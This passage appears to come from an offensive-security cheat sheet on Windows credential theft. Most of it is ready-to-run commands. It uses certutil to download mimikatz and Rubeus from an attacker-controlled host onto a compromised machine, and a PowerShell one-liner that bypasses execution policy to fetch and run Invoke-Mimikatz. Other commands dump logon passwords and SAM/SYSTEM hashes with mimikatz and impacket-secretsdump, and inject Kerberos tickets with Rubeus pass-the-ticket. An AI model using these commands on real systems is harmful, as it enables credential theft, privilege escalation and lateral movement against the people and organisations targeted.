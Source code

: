 ```
certutil -urlcache -f http://<ATTACKER_IP>:8000/mimidrv.sys
certutil -urlcache -f http://<ATTACKER_IP>:8000/mimikatz.exe
certutil -urlcache -f http://<ATTACKER_IP>:8000/mimilib.dll
certutil -urlcache -f http://<ATTACKER_IP>:8000/mimispool.dll
```

```sh
mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Dumping Hashes from SAM

```sh
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

### Dumping Hashes using PowerShell

```sh
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug sekurlsa::logonpasswords'"
```

---

## Rubeus Kerberos Attacks
`Rubeus.exe` is a powerful tool for manipulating Kerberos tickets, performing attacks like Pass-the-Ticket (PTT), Overpass-the-Hash, Kerberoasting, and more.

### 1. Uploading Rubeus.exe to the target machine
Just like the step for `mimikatz.exe` we will be utilizing python simple http server to upload Rubeus to our compromised machine 

1. Download Rubeus from `@GhostPack` Rubeus repository, or by copying the following line
```sh
git clone https://github.com/GhostPack/Rubeus.git
```
Then we will start our http server to upload rubeus to our compromised machine
```sh
cd /path/to/Rubeus/
python3 -m http.server 8000
```
And on the compromised machine open up cmd and fetch `Rubeus.exe` using the following command
```sh
certutil -urlcache -f http://<ATTACKER_IP>:8000/Rubeus.exe Rubeus.exe
```

### 2. Attack Kerberos using Rubeus

If we're already running as a user with Administrator privileges, run `Rubeus.exe` using the following command to dump all available tickets stored in memory
```ps1
Rubeus.exe
```
If we obtained a `.kirbi` kerberos ticket, we can inject the ticket to the memory by using the following command
```ps1
Rubeus.exe ptt /ticket:<BASE64_TICKET>
```
Or we could load multiple tickets from a directory by using the following command
```ps1
Rubeus.exe ptt /ticket:C:\Users\Public\admin_ticket.kirbi
```
